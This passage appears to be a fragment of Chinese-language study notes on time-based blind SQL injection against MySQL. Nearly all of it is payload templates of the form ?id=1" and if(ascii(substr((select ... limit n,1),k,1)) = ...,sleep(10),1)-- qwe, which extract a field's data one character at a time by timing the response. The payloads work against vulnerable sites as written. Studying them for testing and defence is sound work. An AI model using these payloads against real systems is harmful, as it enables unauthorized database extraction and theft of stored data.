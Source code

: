             ```mysql
            第二个数据 : 
            	?id=1" and if(ascii(substr((select 第一个字段 from 第一个表 limit 1,1),1,1)) = ascii数字对应字符,sleep(10),1)-- qwe
            	?id=1" and if(ascii(substr((select 第一个字段 from 第一个表 limit 1,1),2,1)) = ascii数字对应字符,sleep(10),1)-- qwe
            ```

         2. 第二个字段

            ```mysql
            第一个数据 : 
            	?id=1" and if(ascii(substr((select 第二个字段 from 第一个表 limit 0,1),1,1)) = ascii数字对应字符,sleep(10),1)-- qwe
            	?id=1" and if(ascii(substr((select 第二个字段 from 第一个表 limit 0,1),2,1)) = ascii数字对应字符,sleep(10),1)-- qwe
            ```

            ```mysql
            第一个数据 : 
            	?id=1" and if(ascii(substr((select 第二个字段 from 第一个表 limit 1,1),1,1)) = ascii数字对应字符,sleep(10),1)-- qwe
            	?id=1" and if(ascii(substr((select 第二个字段 from 第一个表 limit 1,1),2,1)) = ascii数字对应字符,sleep(10),1)-- qwe
            ```

   3. 